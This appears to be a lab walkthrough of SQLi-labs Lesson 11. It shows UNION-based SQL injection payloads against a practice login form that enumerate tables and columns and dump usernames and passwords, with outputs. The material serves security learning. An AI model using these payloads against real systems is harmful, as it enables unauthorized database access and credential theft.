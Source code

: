 # Lesson-11

Error Based

When we try just `\` we get

```ABAP
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''\' and password='' LIMIT 0,1' at line 1
```

So the query must be like

```sql
SELECT * FROM users where username=''$username' AND password='$password' LIMIT 0,1;
```

So we have to use `'` to break the query

When we use

```sql
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database(); #
```

We get an error

```ABAP
The used SELECT statements have a different number of columns
```

So we use:

```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database(); #

Your Password:emails,referers,uagents,users
```

So we try to get all the info from the tables using

First we get the column names

```ABAP
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='emails'; #

Your Password:id,email_id
```

2

```ABAP
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='referers'; #

Your Password:id,referer,ip_address
```

3

```ABAP
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='uagents'; #

Your Password:id,uagent,ip_address,username
```

4

```ABAP
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'; #

Your Password:id,username,password
```

Now we can get all the data from these tables

From emails

```ABAP
1' union select group_concat(id),group_concat(email_id) from emails; #

Your Login name:1,2,3,4,5,6,7,8
Your Password:Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com
```

From referers :

```ABAP
1' union select group_concat(id),group_concat(ip_address) from referers; #

Your Login name:
Your Password:

!empty!
```

From uagents :

```ABAP
1' union select group_concat(id),group_concat(uagent) from uagents; #

Your Login name:1,2,3,4,5,6
Your Password:Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,0,0,0

1' union select group_concat(ip_address),group_concat(username) from uagents; #

Your Login name:172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1
Your Password:admin,admin,admin,admin,admin,admin
```

From users:

```ABAP
1' union select group_concat(id),group_concat(username) from users; #

Your Login name:1,2,3,4,5,6,7,8,9,10,11,12,14
Your Password:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4

1' union select group_concat(username),group_concat(password) from users; #

Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```
